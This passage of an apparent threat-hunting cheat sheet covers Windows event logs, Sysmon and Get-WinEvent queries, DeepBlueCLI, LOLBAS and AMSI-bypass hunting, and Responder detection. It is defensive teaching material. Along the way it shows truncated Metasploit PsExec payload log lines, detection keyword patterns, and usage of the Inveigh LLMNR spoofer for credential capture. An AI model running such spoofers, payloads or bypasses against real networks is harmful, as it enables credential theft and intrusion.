ProviderName : Service Control Manager
Id           : 7045
Message      : A service was installed in the system.

               Service Name:  KgXItsbKgTJzdzwl
               Service File Name:  %SYSTEMROOT%\duKhLYUX.exe
               Service Type:  user mode service
               Service Start Type:  demand start
               Service Account:  LocalSystem
```

## Hunting Metasploit PowerShell Target (PsExec) (Security/System)
|Event|Command|
|-----|-------|
|Metasploit PowerShell target (security)|` .\DeepBlue.ps1 .\evtx\metasploit-psexec-powershell-target-security.evtx`|
|Metasploit PowerShell target (system)|` .\DeepBlue.ps1 .\evtx\metasploit-psexec-powershell-target-system.evtx`|

```
Date    : 9/20/2016 9:35:58 AM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Metasploit-style cmd with pipe (possible use of Meterpreter 'getsystem')

Command : cmd.exe /c echo genusn > \\.\pipe\genusn
Decoded :

Date    : 9/20/2016 9:35:46 AM
Log     : System
EventID : 7045
Message : Suspicious Service Command
Results : Service name: UWdKhYTIQWWJxHfx
          Long Command Line: greater than 1000 bytes
          Metasploit-style base64 encoded/compressed PowerShell function (possible use of Metasploit PowerShell exploit payload)
          500+ consecutive Base64 characters
          Base64-encoded and compressed function

Command : %COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden ....
```

```
PS > Get-WinEvent -FilterHashtable @{Path=".\evtx\metasploit-psexec-powershell-target-security.evtx",".\evtx\metasploit-psexec-powershell-target-system.evtx"; id=4688,7045} | Where-Object { $_.Message -ilike "*echo*" -or $_.Message -ilike "*cmd.exe*" -or $_.Message -ilike "*COMSPEC*" -or $_.Message -ilike "*\\pipe\\*" } | Format-List

TimeCreated  : 9/20/2016 9:35:58 AM
ProviderName : Service Control Manager
Id           : 7045
Message      : A service was installed in the system.

               Service Name:  genusn
               Service File Name:  cmd.exe /c echo genusn > \\.\pipe\genusn
               Service Type:  user mode service
               Service Start Type:  demand start
               Service Account:  LocalSystem

TimeCreated  : 9/20/2016 9:35:46 AM
ProviderName : Service Control Manager
Id           : 7045
Message      : A service was installed in the system.

               Service Name:  UWdKhYTIQWWJxHfx
               Service File Name:  %COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden ....
TimeCreated  : 9/20/2016 9:35:58 AM
ProviderName : Microsoft-Windows-Security-Auditing
Id           : 4688
Message      : A new process has been created.

               Subject:
                Security ID:            S-1-5-18
                Account Name:           IE10WIN7$
                Account Domain:         WORKGROUP
                Logon ID:               0x3E7

               Process Information:
                New Process ID:         0xe8c
                New Process Name:       C:\Windows\System32\cmd.exe
                Token Elevation Type:   TokenElevationTypeDefault (1)
                Creator Process ID:     0x1cc
                Process Command Line:   cmd.exe /c echo genusn > \
TimeCreated  : 9/20/2016 9:35:46 AM
ProviderName : Microsoft-Windows-Security-Auditing
Id           : 4688
Message      : A new process has been created.

               Subject:
                Security ID:            S-1-5-18
                Account Name:           IE10WIN7$
                Account Domain:         WORKGROUP
                Logon ID:               0x3E7

               Process Information:
                New Process ID:         0xb2c
                New Process Name:       C:\Windows\System32\cmd.exe
                Token Elevation Type:   TokenElevationTypeDefault (1)
                Creator Process ID:     0x1cc
                Process Command Line:   C:\Windows\system32\cmd.exe
```

## Windows Log Rotation & Clearing
If event logs are not forwarded, then they are at risk of being cleared (deleted) or rotated from the endpoint device.

To clear event logs, administrative rights are needed. It is possible to clear the event logs without admin rights flooding the endpoint with events to generate logs that will rotate the logs that can be seen within tools such as Even Viewer

Event IDs to hunt for regarding log clearing are Event IDs 1102 and 104.

|    ID              |    Description                                             |
|--------------------|------------------------------------------------------------|
|    Event ID 1102   |   Windows Security audit log is cleared |
|    Event ID 1104   |   The security Log is now full          |

# Sysmon Event ID
|     ID    |     Tag                       |     Event                                                 |
|-----------|-------------------------------|-----------------------------------------------------------|
|     1     |     ProcessCreate             |     Process   Create                                      |
|     2     |     FileCreateTime            |     File   creation time                                  |
|     3     |     NetworkConnect            |     Network   connection detected                         |
|     4     |     n/a                       |     Sysmon   service state change (cannot be filtered)    |
|     5     |     ProcessTerminate          |     Process   terminated                                  |
|     6     |     DriverLoad                |     Driver   Loaded                                       |
|     7     |     ImageLoad                 |     Image   loaded                                        |
|     8     |     CreateRemoteThread        |     CreateRemoteThread   detected                         |
|     9     |     RawAccessRead             |     RawAccessRead   detected                              |
|     10    |     ProcessAccess             |     Process   accessed                                    |
|     11    |     FileCreate                |     File   created                                        |
|     12    |     RegistryEvent             |     Registry   object added or deleted                    |
|     13    |     RegistryEvent             |     Registry   value set                                  |
|     14    |     RegistryEvent             |     Registry   object renamed                             |
|     15    |     FileCreateStreamHash      |     File   stream created                                 |
|     16    |     n/a                       |     Sysmon   configuration change (cannot be filtered)    |
|     17    |     PipeEvent                 |     Named   pipe created                                  |
|     18    |     PipeEvent                 |     Named   pipe connected                                |
|     19    |     WmiEvent                  |     WMI   filter                                          |
|     20    |     WmiEvent                  |     WMI   consumer                                        |
|     21    |     WmiEvent                  |     WMI   consumer filter                                 |
|     22    |     DNSQuery                  |     DNS   query                                           |
|     23    |     FileDelete                |     File   Delete archived                                |
|     24    |     ClipboardChange           |     New   content in the clipboard                        |
|     25    |     ProcessTampering          |     Process   image change                                |
|     26    |     FileDeleteDetected        |     File   Delete logged                                  |
|     27    |     FileBlockExecutable       |     File   Block Executable                               |
|     28    |     FileBlockShredding        |     File   Block Shredding                                |
|     29    |     FileExecutableDetected    |     File   Executable Detected                            |

## Hunting in Sysmon

- In truth, Sysmon could be considered as **HIDS** (Host Intrusion Detection System)
- Or even provide major elements of what could be a homegrown **EDR** (Endpoint Detection & Response)

**Process**
- Process creation (1)
- Driver Loads (6)
- Image/DLL loads (7)
- CreateRemoteThread (8)
- Named Pipes (17/18)

**Network**
- Connection (3) hostname, IP, port PID

**Registry**
- Key/value creation or deletion (12)
- Modification (13)

**File**
- Create time modification (2)
- File create (11)
- ADS create (15)

**WMI**
- Event filter activity (19)
- Consumer activity (20)
- Consumer filter activity (21)

Pull all Sysmon logs from the live Sysmon Event log (requires Sysmon and an admin PowerShell):
```
PS C:\> Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational"
```
Pull Sysmon event ID 1 from the live Sysmon Event log
```
PS C:\> Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Sysmon/Operational"; id=1}
```
Generic Hunting For Macros
```
Get-SysmonLogsProcessStarts | ? parentimage  -like '*winword*'
Get-SysmonLogsProcessStarts | ? commandline -like '*shell*'
Get-SysmonLogsProcessStarts 
```
Sysmon Event ID  10 - Process Access
```
get-winevent -FilterHashTable @{logname="'Microsoft-Windows-Sysmon/Operational"; id=10} | %{$_.Properties[0]} 
get-winevent -FilterHashTable @{logname="'Microsoft-Windows-Sysmon/Operational"; id=10} | %{$_.Properties[4]}
get-winevent -FilterHashTable @{logname="'Microsoft-Windows-Sysmon/Operational"; id=10} | %{$_.Properties[7]}
get-winevent -FilterHashTable @{logname="'Microsoft-Windows-Sysmon/Operational"; id=10} | %{$_.Properties[9].Value}
```

#### Sysmon Event ID 1 - Process Creation
```
Get-WinEvent -FilterHashtable @{LogName="Microsoft-Windows-Sysmon/Operational"; ID=1} | Where-Object {$_.Properties[10].Value -ilike "*TARGET_COMMANDLINE*"} | fl

0  RuleName
1  UtcTime
2  ProcessGuid
3  ProcessId
4  Image
5  FileVersion
6  Description
7  Product
8  Company
9  OriginalFileName
10  CommandLine
11  User
12  LogonGuid
13  LogonId
14  TerminalSessionId
15  IntegrityLevel
16  Hashes
17  ParentProcessGuid
18  ParentProcessId
19  ParentImage
20  ParentCommandLine
21  ParentUser
```

```
Message      : Process Create:
               RuleName: -
               UtcTime: 2022-07-06 06:18:08.890
               ProcessGuid: {221ce7aa-2920-62c5-6501-00000000e000}
               ProcessId: 3760
               Image: C:\Windows\SysWOW64\cmd.exe
               FileVersion: 10.0.17763.592 (WinBuild.160101.0800)
               Description: Windows Command Processor
               Product: Microsoft® Windows® Operating System
               Company: Microsoft Corporation
               OriginalFileName: Cmd.Exe
               CommandLine: "C:\Windows\System32\cmd.exe" /c copy
               C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe
               C:\Users\Public\Downloads\Windows_Reporting.exe
               CurrentDirectory:
               C:\Users\student\AppData\Local\Packages\Microsoft.MicrosoftEdge_8abkyb35bbwe\TempState\Downloads\
               User: ATTACKDEFENSE\Administrator
               LogonGuid: {221ce7aa-1494-62c5-c389-230000000000}
               LogonId: 0x2389C3
               TerminalSessionId: 2
               IntegrityLevel: High
               Hashes: MD5=C43699F84A68608E7E57C43B7761BBB8,SHA256=2EDB180274A51C83DDF8414D99E90315A9047B18C51DFD070326
               214D4DA59651,IMPHASH=392B4D61B1D1DADC1F06444DF258188A
               ParentProcessGuid: {221ce7aa-2920-62c5-6401-00000000e000}
               ParentProcessId: 5560
               ParentImage: C:\Windows\SysWOW64\mshta.exe
               ParentCommandLine: "C:\Windows\SysWOW64\mshta.exe" "C:\Users\student\AppData\Local\Packages\Microsoft.Mi
               crosoftEdge_8abkyb35bbwe\TempState\Downloads\report.hta"
               {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}
               ParentUser: ATTACKDEFENSE\Administrator
```
#### Sysmon Event ID 3 - Network Connection
```
Get-WinEvent -FilterHashtable @{LogName="Microsoft-Windows-Sysmon/Operational"; ID=3} | ? {$_.Properties[4].Value -ilike "*TARGET_IMAGE*"} | fl
```
```
Get-WinEvent -FilterHashtable @{LogName="Microsoft-Windows-Sysmon/Operational"; ID=3} | Where-Object { $_.Properties[4].Value -notlike "*TARGET_IMAGE*" } | fl
```
```
Message      : Network connection detected:
               RuleName: Usermode
               UtcTime: 2022-07-06 06:18:39.090
               ProcessGuid: {221ce7aa-293e-62c5-6a01-00000000e000}
               ProcessId: 5768
               Image: C:\Users\Public\Downloads\Windows_Reporting.exe
               User: ATTACKDEFENSE\Administrator
               Protocol: tcp
               Initiated: true
               SourceIsIpv6: false
               SourceIp: 10.0.0.60
               SourceHostname: AttackDefense.ap-southeast-1.compute.internal
               SourcePort: 49822
               SourcePortName: -
               DestinationIsIpv6: false
               DestinationIp: 52.77.211.51
               DestinationHostname: ec2-52-77-211-51.ap-southeast-1.compute.amazonaws.com
               DestinationPort: 80
               DestinationPortName: http
```
#### Sysmon Event ID 11 - CreateRemoteThread
```
Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Sysmon/Operational"; id=11} | Where-Object {$_.Properties[5].Value -like "*TARGET_FILENAME*"} | fl
```
```
Message      : File created:
               RuleName: DLL
               UtcTime: 2024-03-22 00:39:10.971
               ProcessGuid: {43199d79-d32e-65fc-5202-000000001b00}
               ProcessId: 3128
               Image: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
               TargetFilename: C:\Windows\assembly\NativeImages_v4.0.30319_64\Temp\c38-0\Microsoft.Build.resources.dll
               CreationUtcTime: 2024-03-22 00:39:10.971
-------------------------------------------------------------------------------------------
    <EventData>
        <Data Name="UtcTime">2017-05-13 19:44:55.313</Data>
        <Data Name="ProcessGuid">{A23EAE89-6237-5917-0000-0010300E6601}</Data>
        <Data Name="ProcessId">19200</Data>
        <Data Name="Image">C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe</Data>
        <Data Name="TargetFilename">C:\Windows\assembly\NativeImages_v4.0.30319_64\Temp\4b00-0\AxImp.exe</Data>
        <Data Name="CreationUtcTime">2017-05-13 19:44:55.313</Data>
    </EventData>
```
#### Sysmon Event ID 8 - CreateRemoteThread
```
Get-WinEvent -FilterHashtable @{LogName="Microsoft-Windows-Sysmon/Operational"; ID=8} | Where
-Object {$_.Properties[7].Value -ilike "*TARGET_IMAGE*"} | fl
```
```
Message      : CreateRemoteThread detected:
               RuleName: -
               UtcTime: 2022-06-28 11:53:08.726
               SourceProcessGuid: {221ce7aa-eb75-62ba-0401-00000000df00}
               SourceProcessId: 1932
               SourceImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
               TargetProcessGuid: {221ce7aa-eba3-62ba-0a01-00000000df00}
               TargetProcessId: 3324
               TargetImage: C:\Windows\System32\mspaint.exe
               NewThreadId: 5548
               StartAddress: 0x00007FFF7CD1F220
               StartModule: -
               StartFunction: -
               SourceUser: ATTACKDEFENSE\Administrator
               TargetUser: ATTACKDEFENSE\Administrator
```
#### Sysmon Event ID 13 - RegistryEvent (Value Set)
```
Get-WinEvent -FilterHashtable @{LogName="Microsoft-Windows-Sysmon/Operational"; ID=13} | Where-Object{$_.Properties[5].Value -ilike '*TARGET_IMAGE*'} | fl 
```
```
Message      : Registry value set:
               RuleName: Suspicious,ImageBeginWithBackslash
               EventType: SetValue
               UtcTime: 2024-02-18 08:44:16.136
               ProcessGuid: {221ce7aa-c359-65d1-c200-00000000e000}
               ProcessId: 5604
               Image: \\?\C:\Windows\system32\wbem\WMIADAP.EXE
               TargetObject: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Perflib\Updating
               Details: WmiApRpl
               User: NT AUTHORITY\SYSTEM
```

# Get-WinEvent PowerShell cmdlet Cheat Sheet
Where to Acquire
---------
PowerShell is natively installed in Windows Vista and newer, and includes the Get-WinEvent cmdlet by default.

Examples/Use Case
---------
## Get-WinEvent
View all events in the live system Event Log:
```
PS C:\> Get-WinEvent -LogName system
```
Long Tail Analysis via PowerShell - Use the PowerShell pipeline with both the Where-Object and Group-Object cmdlets to sort and organize all of the events
```
Get-WinEvent -Path T510-security.evtx | Group-Object id -NoElement | sort count
```
Determine how many events occurred on 1/20/2014 with the event ID 4634
```
Get-WinEvent -FilterHashtable @{Path=".\T510-security.evtx"; id=4634; starttime=[datetime]"01/20/2014"; EndTime=[datetime]"01/21/2014"} | Measure | Select Count
```
View all events in the live security Event Log (requires administrator PowerShell):
```
PS C:\> Get-WinEvent -LogName security
```
View all events in the file example.evtx, format list (fl) output:
```
PS C:\> Get-WinEvent -Path example.evtx | fl
```
View all events in example.evtx, format GridView output:
```
PS C:\> Get-WinEvent -Path example.evtx | Out-GridView
```
Perform long tail analysis of example.evtx:
```
PS C:\> Get-WinEvent -Path example.evtx | Group-Object id -NoElement | sort count
```
Pull events 7030 and 7045 from system.evtx:
```
PS C:\> Get-WinEvent -FilterHashtable @{Path="system.evtx"; ID=7030,7045}
```
Same as above, but use the live system event log:
```
PS C:\> Get-WinEvent -FilterHashtable @{logname="system"; id=7030,7045}
```
Search for events containing the string "USB" in the file system.evtx:
```
PS C:\> Get-WinEvent -FilterHashtable @{Path="system.evtx"} | Where {$_.Message -like "*USB*"}
```
'grep'-style search for lines of events containing the case insensitive string "USB" in the file system.evtx:
```
PS C:\> Get-WinEvent -FilterHashtable @{Path="system.evtx"} | fl | findstr /i USB
```
Pull all errors (level=2) from application.evtx:
```
PS C:\> Get-WinEvent -FilterHashtable @{Path="application.evtx"; level=2}
```
Pull all errors (level=2) from application.evtx and count the number of lines ('wc'-style):
```
PS C:\> Get-WinEvent -FilterHashtable @{Path="application.evtx"; level=2} | Measure-Object -Line
```

### AppLocker
Pull all AppLocker logs from the live AppLocker event log (requires Applocker):
```
PS C:\> Get-WinEvent -logname "Microsoft-Windows-AppLocker/EXE and DLL"
```
Search for live AppLocker EXE/MSI block events: "(EXE) was prevented from running":
```
PS C:\> Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Applocker/EXE and DLL"; id=8004}
```
Search for live AppLocker EXE/MSI audit events: "(EXE) was allowed to run but would have been prevented from running if the AppLocker policy were enforced":
```
PS C:\> Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Applocker/EXE and DLL"; id=8003}
```

### EMET
Pull all EMET logs from the live Application Event log (requires EMET):
```
PS C:\> Get-WinEvent -FilterHashtable @{logname="application"; providername="EMET"}
 ```
Pull all EMET logs from a saved Application Event log (requires EMET):
```
PS C:\> Get-WinEvent -FilterHashtable @{path="application.evtx"; providername="EMET"}
```

### Windows Defender
Pull all live Windows Defender event logs
```
PS C:\> Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Windows Defender/Operational"}
```
Pull Windows Defender event logs 1116 and 1117 from the live event log
```
PS C:\> Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Windows Defender/Operational";id=1116,1117}
```
Pull Windows Defender event logs 1116 (malware detected) and 1117 (malware blocked) from a saved evtx file
```
PS C:\> Get-WinEvent -FilterHashtable @{path="WindowsDefender.evtx";id=1116,1117}
```
# DeepBlueCLI
[DeepBlueCLI](https://github.com/sans-blue-team/DeepBlueCLI) - a PowerShell Module for Threat Hunting via Windows Event Logs

Usage:
```
.\DeepBlue.ps1 <event log name> <evtx filename>
```
See the Set-ExecutionPolicy Readme if you receive a 'running scripts is disabled on this system' error.

Process local Windows security event log (PowerShell must be run as Administrator):
```
.\DeepBlue.ps1
```
or:
```
.\DeepBlue.ps1 -log security
```
Process local Windows system event log:
```
.\DeepBlue.ps1 -log system
```
Process evtx file:
```
.\DeepBlue.ps1 .\evtx\new-user-security.evtx
```
Powershell Powershell logs with Out-GridView
```
.\DeepBlue.ps1 -log PowerShell | Out-GridView
```

**Suspicious account behavior**
- User creation
- User added to local/global/universal groups
- Password guessing (multiple logon failures, one account)
- Password spraying via failed logon (multiple logon failures, multiple accounts)
- Password spraying via explicit credentials
- Bloodhound (admin privileges assigned to the same account with multiple Security IDs)

**Command line/Sysmon/PowerShell auditing**
- Long command lines
- Regex searches
- Obfuscated commands
- PowerShell launched via WMIC or PsExec
- PowerShell Net.WebClient Downloadstring
- Compressed/Base64 encoded commands (with automatic decompression/decoding)

**Unsigned EXEs or DLLs**
- Service auditing
- Suspicious service creation
- Service creation errors
- Stopping/starting the Windows Event Log service (potential event log manipulation)

**Mimikatz**
- *lsadump::sam*

**EMET & Applocker Blocks**

# Advance Hunting

## LOLBAS 
**Living-off-the-Land Binaries and Scripts** (LOLBAS) is a term that describes Microsoft-signed, native to the OS files (or downloadable from Microsoft) that, in addition to their normal purpose, exhibit functionality which is useful to an APT or Red Team. Abusing LOLBAS increases attackers’ chances of evading detection and bypassing white listing solutions. Detection is hard, as LOLBAS activity blends in with normal activity. 

A continuously updated list with all known LOBAS files is maintained here. The list also provides descriptions, sample usage when invoked at the command line and proposed detection techniques. Common functionalities of LOLBAS are: 
- Execution 
- Download 
- Copy 

Resources:
- [Living Off The Land Binaries, Scripts and Libraries](https://lolbas-project.github.io/)
- [Fantastic Red-Team Attacks And How To Find Them](https://i.blackhat.com/USA-19/Thursday/us-19-Smith-Fantastic-Red-Team-Attacks-And-How-To-Find-Them.pdf)
- [Living off the land and fileless attack techniques](https://docs.broadcom.com/doc/istr-living-off-the-land-and-fileless-attack-techniques-en)
- [MITRE Cyber Analytics Repository](https://car.mitre.org/)

## (Unmanaged) PowerShell
In response to the high abuse and with the release of PowerShell version 5, Microsoft, in the blog post PowerShell ♥ the Blue Team, released even better enhancements to the logging capability, added Constrained language, and PowerShell scripts are submitted to AMSI – the antimalware interface. 
- [PowerShell ♥ the Blue Team](https://devblogs.microsoft.com/powershell/powershell-the-blue-team/)


Enhanced logging (Script block logging) is great when hunting for malicious commands, as it gives visibility into the script in a plain, de-obfuscated version of a it. Some useful techniques on hunting malicious commands are described in the Sigma project under the PowerShell section. Additionally, FireEye released a great whitepaper on malicious use of PowerShell.
- [SigmaRulesWindowsPowershell](https://github.com/Neo23x0/sigma/tree/master/rules/windows/powershell )
- [THE INCREASED USE OF POWERSHELL IN ATTACKS](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en) 

We can enable Turn On Module Logging & Turn on PowerShell Transcription as well, along with Turn On PowerShell Script Block Logging. 
Event IDs to hunt for are 
- 4104
- 4105
- 4106

## Malicious .NET and LDAP

### Execute-Assembly
Many of the PowerShell tools are being rewritten in .NET instead, in an attempt to avoid detection. Therefore, offensive tools now support injection and execution of .NET assemblies, one example is Cobalt Strike through its *execute-assembly* module.

- [Hunting For In- Memory .NET Attacks](https://www.elastic.co/security-labs/hunting-memory-net-attacks)

## AMSI

Essentially, AMSI provides insight into in-memory buffers, allowing AV software to analyze a de-obfuscated script, as opposed to a heavily obfuscated one stored in a file on disk. AMSI makes the execution of malicious scripts significantly more difficult. 

AMSI integrates in the following components: 
- User Account Control (UAC) 
- PowerShell 
- Windows Script Host 
- JavaScript and VBScript 
- Office VBA macro

As AMSI provides a deep look into scripts, adversaries attempt to bypass it before running malicious scripts. The following Github project contains examples of 14 bypasses as of the time of this writing. Some of them unload AMSI from the process, while others patch it in memory directly. 

When hunting for those techniques, they are best combined with the logging capability available. The last command generates event 4104 (presence of “amsi” is suspicious):


Reference: 
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [Hunting for AMSI bypasses](https://blog.f-secure.com/hunting-for-amsi-bypasses/)

## COM Hijacking
As hunters, our focus is therefore any registry additions or modifications of CLSIDs on the keys LocalServer32 or InprocServer32. If baselines are not available to compare with, we could also hunt by looking for presence of objects within HKEY_CURRENT_USER\Software\Classes\CLSID\  as their presence alone is anomalous behavior

References:
- [ABUSING THE COM REGISTRY STRUCTURE: CLSID, LOCALSERVER32, & INPROCSERVER32](https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/)
- [ABUSING THE COM REGISTRY STRUCTURE (PART 2): HIJACKING & LOADING TECHNIQUES](https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/)

# Hunting Responder

[The CredDefense Toolkit](https://www.blackhillsinfosec.com/the-creddefense-toolkit/) – to have a free way to detect and prevent credential abuse attacks.

## CredDefense - ResponderGuard
One of the common attacks we as pentesters perform is to attempt NBNS (*NetBIOS Name Service*) or LLMNR (*Link-Local Multicast Name Resolution*) spoofing attacks on a network in hopes of gaining hashed credentials of users. One popular tool for performing this attack is called *Responder* written by Laurent Gaffie. 

[ResponderGuard.ps1](https://github.com/CredDefense/CredDefense/blob/master/scripts/ResponderGuard.ps1) is a PowerShell tool that should allow for the detection of Responder-like activity on a larger scale across networks. It has the ability to locate Responder listeners on foreign subnets by sending targeted NBNS requests to every host in a list of CIDR ranges. With each NBNS request, a random hostname is requested for each IP address. If a host responds that it is the correct host then it is likely that host is an NBNS spoofer.

To assist with alerting for this activity, ResponderGuard writes a Windows event log immediately upon detecting a Responder-like listener on the network. This can be utilized in association with CredDefense or any SIEM of your choice to alert you whenever a Responder-like system is discovered. Just look for 
```
Event Viewer > Windows Logs > Application > **Event ID 8415**.
```
**Usage**

```powershell
<#
  .SYNOPSIS

    This function attempts to locate NBNS spoofers on a network by sending NBNS requests using fake hostnames to specified hosts.

    ResponderGuard Function: Invoke-ResponderGuard
    Author: Beau Bullock (@dafthack)
    License: MIT License
    Required Dependencies: None
    Optional Dependencies: None

  .DESCRIPTION

    This function attempts to locate NBNS spoofers on a network by sending NBNS requests using fake hostnames to specified hosts.
    
  .PARAMETER SingleIP

    A single IP address to scan for NBNS spoofing
    
  .PARAMETER CidrRange

    A CIDR range such as 192.168.1.0/24

  .PARAMETER CidrList

    A list of CIDR ranges 1 per line to scan for NBNS spoofing
    
  .PARAMETER LoggingEnabled

    If the LoggingEnabled option is set a Windows Event log will be created for each potential NBNS spoofer found. The default EventID is 8415.

  .PARAMETER HoneyTokenSeed

    If the HoneyTokenSeed option is set ResponderGuard will submit a set of honey token credentials to a detected NBNS spoofer over SMB. #### Be sure to set the user/pass combination in the "Honey Token Seed" section below. #####
    #>
```

```powershell
  .EXAMPLE

    C:\PS> Invoke-ResponderGuard -CidrRange 10.100.11.0/24 -LoggingEnabled -HoneyTokenSeed

    Description
    -----------
    This command will attempt to scan each host in the 10.100.11.0/24 subnet to determine if an NBNS spoofer is present and will log each event to the Windows Event Log. 
    **NOTE**: Run ipconfig and check for default gateway.
    
PS > Import-Module .\ResponderGuard.ps1
PS > Invoke-ResponderGuard -CidrRange 10.100.11.0/24 -LoggingEnabled -HoneyTokenSeed
[*] Setting up event logging.
[*] EventLog source ResponderGuard already exists.
[*] Now creating a list of IP addresses from the 10.100.11.0/24 network range.
[*] A list of 255 addresses was created.
[*] ResponderGuard received an NBNS response from the host at 10.100.11.102 for the hostname WRBMIZTDSA!
[*] An event was written to the Windows Event log.
[*] Submitting Honey Token Creds INE\HoneyUser : NotARealPassword! to \\10.100.11.102\c$!
[*] ResponderGuard received an NBNS response from the host at 10.100.11.102 for the hostname FVJAMPKUYL!
[*] An event was written to the Windows Event log.
[*] Submitting Honey Token Creds INE\HoneyUser : NotARealPassword! to \\10.100.11.102\c$!

It detected an NBNS response from the IP address at 10.100.11.102 for a random hostname. An event was written to the event log and then a set of honey credentials (INE\HoneyUser : NotARealPassword!) were submitted over SMB to the listener.

```   

```powershell
  .EXAMPLE

    C:\PS> Invoke-ResponderGuard -CidrList C:\temp\cidr-list.txt

    Description
    -----------
    This command will import the list of CIDR network ranges from the file at C:\temp\cidr-list.txt and attempt to scan each host to determine if an NBNS spoofer is present.
```

```powershell
  .EXAMPLE

    C:\PS> Invoke-ResponderGuard -CidrRange 10.0.0.0/16 -LoggingEnabled -HoneyTokenSeed

    Description
    -----------
    This command will attempt to scan each host in the 10.0.0.0/16 subnet to determine if an NBNS spoofer is present and will log each event to the Windows Event Log. Additionally, for each detected NBNS spoofer a set of honey credentials will be sent to the listener over SMB. #### Be sure to set the user/pass combination in the "Honey Token Seed" section below.####
```

## PowerShellDefense - Invoke-HoneyCreds

This PowerShell function [Invoke-HoneyCreds](https://github.com/Ben0xA/PowerShellDefense/blob/master/Invoke-HoneyCreds.ps1) is designed to simulate a scenario where a compromised user's credentials are used to attempt unauthorized access to network resources.

```powershell
PS > Import-Module .\Invoke-HoneyCreds.ps1
PS > Invoke-HoneyCreds 

**NOTE**: Get Credentials. Use DOMAIN\User for username. The Account Domain should match the target.
```

## PowerShellDefense - Find-MaliciousAccount

The purpose of the [Find-MaliciousAccount](https://github.com/Ben0xA/PowerShellDefense/blob/master/Find-MaliciousAccount.ps1) function in the provided PowerShell script is to continuously monitor the Security event log for potential malicious logon attempts associated with a specific user account. It achieves this by searching for events with **Event ID 4648** (which typically indicates a logon attempt) and matching the specified account name within those events.

```powershell
PS > Import-Module .\Find-MaliciousAccount.ps1
PS > Find-MaliciousAccount "TargetAccountName"
```


## Detect Responder with Sysmon

[Get-WinEventData](https://github.com/RamblingCookieMonster/PowerShell/blob/master/Get-WinEventData.ps1)
```powershell
.SYNOPSIS
    Get custom event data from an event log record

.DESCRIPTION
    Get custom event data from an event log record

    Takes in Event Log entries from Get-WinEvent, converts each to XML, extracts all properties from Event.EventData.Data

    Notes:
        To avoid overwriting existing properties or skipping event data properties, we append 'EventData' to these extracted properties
        Some events store custom data in other XML nodes.  For example, AppLocker uses Event.UserData.RuleAndFileData

.PARAMETER Event
    One or more event.
    
    Accepts data from Get-WinEvent or any System.Diagnostics.Eventing.Reader.EventLogRecord object

.INPUTS
    System.Diagnostics.Eventing.Reader.EventLogRecord

.OUTPUTS
    System.Diagnostics.Eventing.Reader.EventLogRecord

.EXAMPLE
    Get-WinEvent -LogName system -max 1 | Get-WinEventData | Select -Property MachineName, TimeCreated, EventData*

    #  Simple example showing the computer an event was generated on, the time, and any custom event data

.EXAMPLE
    Get-WinEvent -ComputerName DomainController1 -FilterHashtable @{Logname='security';id=4740} -MaxEvents 10 | Get-WinEventData | Select TimeCreated, EventDataTargetUserName, EventDataTargetDomainName

    #  Find lockout events on a domain controller
    #    ideally you have log forwarding, audit collection services, or a product from a t-shirt company for this...

.NOTES
    Concept and most code borrowed from Ashley McGlone
        http://blogs.technet.com/b/ashleymcglone/archive/2013/08/28/powershell-get-winevent-xml-madness-getting-details-from-event-logs.aspx

.FUNCTIONALITY
    Computers
#>

```

[(Attempting) to Detect Responder with Sysmon](https://haveyousecured.blogspot.com/2016/12/attempting-to-detect-responder-with.html)

```powershell
#credits to haveyousecured.blogspot.gr
Import-Module .\Get-WinEventData.ps1

Set-Location \\nonexisting\sharenotthere -ErrorAction SilentlyContinue

$EventsID3 = Get-WinEvent -FilterHashtable @{logname="Microsoft-Windows-Sysmon/Operational";ID=3} | Get-WinEventData | select EventDataDestinationPort, EventDataDestinationIp

foreach($Event3 in $EventsID3){

    if(($Event3.EventDataDestinationPort -eq 445) -and ($Event3.EventDataDestinationIp -notcontains "10.100.10.253")){

        Write-Host "SMB Response Sent to Untrusted": $Event3.EventDataDestinationIp + $Event3.EventDataDestinationPort 

    }

}
```

```powershell
Get-WinEvent -FilterHashtable @{LogName="Microsoft-Windows-Sysmon/Operational"; ID=3} | Where-Object{$_.Properties[16].Value -ilike '445' -and $_.Properties[14].Value -notcontains "10.100.10.253"} | Format-List
```

## Inveigh

PowerShell Script Block logging - **Event ID 4104**

```
Event Viewer > Applications and Services Logs > Microsoft > Windows > PowerShell > Operational log.
```

[Invoke-Inveigh.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1) is a Windows PowerShell LLMNR/mDNS/NBNS spoofer man-in-the-middle tool with challenge/response capture over HTTP/HTTPS/Proxy/SMB.

```powershell
PS > Import-Module .\Inveigh.ps1
PS > Invoke-Inveigh -IP 10.100.11.150

Inveigh 1.3.1 started at 2024-03-20T14:23:25
Elevated Privilege Mode = Enabled
WARNING: Windows Firewall = Enabled
Primary IP Address = 10.100.11.150
LLMNR/mDNS/NBNS Spoofer IP Address = 10.100.11.150
LLMNR Spoofer = Enabled
LLMNR TTL = 30 Seconds
mDNS Spoofer = Disabled
NBNS Spoofer = Disabled
SMB Capture = Enabled
HTTP Capture = Enabled
HTTPS Capture = Disabled
HTTP/HTTPS Authentication = NTLM
WPAD Authentication = NTLM
WPAD NTLM Authentication Ignore List = Firefox
HTTP Reset Delay List = Firefox
